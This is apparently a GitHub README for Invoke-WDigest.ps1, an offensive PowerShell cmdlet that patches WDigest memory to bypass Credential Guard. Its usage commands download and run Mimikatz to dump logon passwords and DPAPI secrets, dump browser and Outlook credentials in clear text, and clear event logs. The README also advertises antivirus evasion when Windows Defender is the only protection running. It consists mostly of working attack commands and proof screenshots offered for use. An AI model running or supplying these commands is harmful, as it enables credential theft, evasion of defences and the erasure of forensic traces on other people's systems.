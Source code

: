 ## Invoke-WDigest.ps1

|Script Name|Description|Privileges|Credits|
|---|---|---|---|
|[Invoke-WDigest](https://github.com/r00t-3xp10it/redpill/blob/main/lib/DeviceGuard/Invoke-WDigest.ps1)|Credential Guard Bypass Via Patching Wdigest Memory|Administrator|@wh0nsq, @Benjamin_Delpy, @nirsoft|

<br /><br />

|Parameter|Description|Defaul value|
|---|---|---|
|WDigest|Activate WDigest credential caching in Memory?|<b><i>true</i></b>|
|ManyCats|Switch that downloads\executes Mimikatz to dump credentials |<b><i>[Switch]</i></b>|
|RunAs|Switch that prompts user for credential input and store it in memory|<b><i>[Switch]</i></b>|
|DcName|Switch of RunAs command that accepts USER@DOMAIN or DOMAIN\USER<br />Remark: this function requires <b><i>-RunAs</i></b> parameter switch declaration|<b><i>$Env:COMPUTERNAME\\$Env:USERNAME</i></b>|
|Module|Mimikatz selection of dump::modules to auto-run|<b><i>sekurlsa::wdigest exit</i></b>|
|BrowserCreds|Switch that dumps installed browers\outlook credentials [clear-text]|<b><i>[Switch]</i></b>|
|Banner|Print Invoke-WDigest cmdlet banner?|<b><i>true</i></b>|
|DebugMe|Switch that prints onscreen cmdlet error messages|<b><i>[Switch]</i></b>|

<br /><br />

<b><i>download Invoke-WDigest.ps1</i></b>
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/DeviceGuard/Invoke-WDigest.ps1" -OutFile "Invoke-WDigest.ps1"
```

<br />

<b><i>pre-requesites checks:</i></b>
> **Warning**: Invoke-WDigest.ps1 cmdlet only bypasses Anti-Virus detection if windows defender its the only AV running in target system.
```powershell
#Make sure Windows Defender service its running
[bool](Get-Service -Name "WinDefend")

#Make sure we have administrator privileges in shell
[bool](([System.Security.Principal.WindowsIdentity]::GetCurrent()).groups -Match "S-1-5-32-544")
```

<br /><br />

<b><i>cmdlet syntax examples:</i></b>
```powershell
# Cmdlet help
Get-Help .\Invoke-WDigest.ps1 -full

# Execute Mimikatz (interactive shell) without WDigest caching
.\Invoke-WDigest.ps1 -wdigest 'false' -manycats

#  Ativate WDigest caching + Execute Mimikatz 'sekurlsa::wdigest exit'
.\Invoke-WDigest.ps1 -wdigest 'true' -manycats

# Ativate WDigest caching + Execute Mimikatz 'net::group sekurlsa::wdigest sekurlsa::logonpasswords' multiple dump modules.
.\Invoke-WDigest.ps1 -wdigest 'true' -manycats -module 'net::group sekurlsa::wdigest sekurlsa::logonpasswords sekurlsa::dpapi'

# Execute Mimikatz (multiple dump::modules) without WDigest caching
.\Invoke-WDigest.ps1 -wdigest 'false' -manycats -module 'net::group sekurlsa::wdigest sekurlsa::dpapi event::clear exit'

#  Ativate WDigest caching + Exec Mimikatz pre-sellection of dump::modules
.\Invoke-WDigest.ps1 -wdigest 'true' -manycats -module 'auto'

# Dump browsers credentials without WDiget catching
.\Invoke-WDigest.ps1 -wdigest 'false' -browsercreds
```

<b><i>[WDIGEST MEMORY CATCHING - FAST DEMONSTRATION]</i></b>
```powershell
## WDigest caching + dump (-runas) created credential with mimikatz
.\Invoke-WDigest.ps1 -WDigest 'true' -manycats -runas

WORKFLOW
   - Invoke-WDigest.ps1 Ativates WDigest caching in memory
   - Invoke-WDigest.ps1 prompts user to enter credential to start cmd.exe
     - [Downside] -runas switch pauses cmdlet execution waiting for credential input.
   - WDigest will store (runas) credential input by user in clear-text in memory
     - [Downside] -runas command (wdigest) only stores 'valid' credentials in-memory.   
   - mimikatz will auto-execute 'mimikatz sekurlsa::wdigest exit' to dump credentials
```

<br /><br />

<b><i>Execute Mimikatz (interactive shell) without WDigest caching</i></b><br />
```powershell
.\Invoke-WDigest.ps1 -wdigest 'false' -manycats
```
![interactive](https://user-images.githubusercontent.com/23490060/219967042-4559b463-5e3e-470d-8ffe-5111eae7f015.png)

<br />

<b><i>WDigest caching + dump (-runas) created credential with mimikatz</i></b><br />
```powershell
.\Invoke-WDigest.ps1 -WDigest 'true' -manycats -runas
```
![POC2](https://user-images.githubusercontent.com/23490060/219876558-6f68d5cb-e0b7-4bd2-b6e1-689dd8f62792.png)

![POC3](https://user-images.githubusercontent.com/23490060/219876572-e28d1c22-b6a6-456c-a710-2af8e75f339b.png)

<br />

<b><i>Dump browsers credentials without WDiget catching</i></b><br />
```powershell
.\Invoke-WDigest.ps1 -wdigest 'false' -browsercreds
```
![brcreds](https://user-images.githubusercontent.com/23490060/221413695-a227e1c3-fa2d-43e0-9f50-44b0157a5af0.png)<br />
![outlook](https://user-images.githubusercontent.com/23490060/221729426-e7363d4b-fef1-4155-9383-06bbe1479f00.png)


<br />

> **Warning**: Invoke-WDigest.ps1 cmdlet only bypasses Anti-Virus detection if windows defender its the only AV running in target system.<br />

![kapersky](https://user-images.githubusercontent.com/23490060/221858219-efb0ca86-4222-47af-8827-7923c7f10656.png)


<br />

<b><i>Links</i></b>

- [Mimikatz modules list](https://tools.thehacker.recipes/mimikatz/modules)
- [Enumerate common security processes running](https://github.com/r00t-3xp10it/redpill/blob/main/bin/GetCounterMeasures.ps1)
